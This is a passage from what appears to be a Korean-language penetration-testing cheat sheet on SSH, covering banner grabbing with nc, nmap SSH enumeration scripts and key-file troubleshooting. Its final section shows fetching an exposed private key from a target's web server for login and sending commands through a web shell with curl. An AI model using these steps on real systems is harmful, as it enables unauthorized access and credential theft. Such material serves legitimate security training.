 ### 🔍 정보 부족시

```bash
# SSH 배너에서 더 많은 정보 추출
nc -nv {IP} 22 | head -1

# SSH 클라이언트 정보 확인
ssh -V

# 서버측 SSH 버전 상세 확인
nmap --script ssh-hostkey,ssh-auth-methods,ssh2-enum-algos -p 22 {IP}

# SSH 로그 확인 (접근 성공 후)
tail -f /var/log/auth.log
tail -f /var/log/secure
```

### 🔧 키 파일 문제 해결

```bash
# 키 파일 권한 수정
chmod 600 ~/.ssh/id_rsa
chmod 700 ~/.ssh/

# 키 파일 소유자 변경
chown $USER:$USER ~/.ssh/id_rsa

# 키 파일 형식 확인
file id_rsa
head -1 id_rsa

# 다른 형식의 키 변환
ssh-keygen -p -m PEM -f id_rsa
openssl rsa -in id_rsa -out id_rsa_converted
```

---

## 🔗 다른 서비스와 연계

### 🌐 웹 서비스와 연계

```bash
# 웹서비스에서 SSH 키 다운로드 후 사용
wget http://{IP}/backup/.ssh/id_rsa
chmod 600 id_rsa
ssh -i id_rsa user@{IP}

# 웹쉘을 통해 SSH 키 생성
echo 'ssh-keygen -t rsa -f /tmp/key -N ""' | curl -X POST --data-binary @- http://{IP}/shell.php
```
